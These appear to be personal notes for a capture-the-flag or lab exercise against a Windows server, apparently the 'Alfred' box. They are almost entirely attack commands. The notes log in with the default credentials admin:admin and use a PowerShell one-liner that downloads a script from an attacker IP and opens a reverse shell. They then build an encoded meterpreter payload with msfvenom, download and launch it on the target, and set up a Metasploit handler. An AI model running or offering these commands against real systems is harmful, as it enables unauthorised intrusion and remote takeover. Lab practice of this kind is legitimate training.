

alfred@wayneenterprises.com

http://10.10.44.162:8080/login?from=%2F
username/password admin:admin
Enter into new project commands
powershell invoke-expression (New-Object Net.WebClient).DownloadString('http://10.13.17.108/invoke-powershellTCP.ps1');invoke-powershellTCP -Reverse -IPAddress 10.13.17.108 -Port 4444
After gaining shell: upgrade to meterpreter
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.13.17.108 LPORT=6969 -f exe -o shell.exe
UPDOG: http://10.13.17.108:9090/shell.exe
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.13.17.108:9090/yshell.exe','yshell.exe')"
start metasploit handler:
use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-ip set LPORT listening-port run
START EXPLOIT ON WINDOWS SERVER
Start-Process "yshell.exe"